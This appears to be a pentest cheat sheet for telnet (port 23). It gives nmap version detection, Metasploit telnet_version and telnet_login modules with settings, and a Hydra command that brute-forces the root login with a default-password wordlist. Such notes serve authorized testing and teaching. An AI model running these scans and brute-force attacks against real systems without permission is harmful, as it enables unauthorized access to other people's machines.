 # Telnet Enum - 23
	
Telnet is a protocol used on the Internet or local area networks to provide a bidirectional interactive text-oriented communication facility using a virtual terminal connection

## Telnet Version Detection

```
nmap -v –p 23 –sV <IP>
```
## Scripts Scanning

```
ls -lh /usr/share/nmap/scripts/ | grep telnet
```
telnet-brute.nse

telnet-encryption.nse

telnet-ntlm-info.nse


## Metasploit

### Telnet Banner Grabbing 

An attacker always perform enumeration for finding important information such as software version which known as Banner Grabbing and then identify it state of vulnerability against any exploit. Open the terminal in your kali Linux and Load metasploit framework; now type following command to scan for TELNET version.

```
use auxiliary/scanner/telnet/telnet_version
```
```
set rhosts <IP>
```
```
set rport 23
```
```
set threads 5
```
```
exploit
```

## Brute forcing Telnet
```
use auxiliary/scanner/telnet/telnet_login
```
```
set rhosts <IP>
```
```
set user_file /root/Desktop/user.txt
```
```
set pass_file /root/Desktop/pass.txt
```
```
set stop_on_success true
```
```
exploit
```

## Brute Force Attack Using Hydra

```
hydra -l root -P /usr/share/seclists/Passwords/Default-Credentials/telnet-betterdefaultpasslist.txt <IP> telnet
```
## Reference 
[hacking.reviews](https://www.hacking.reviews/2017/09/penetration-testing-on-telnet-port-23.html?m=0)


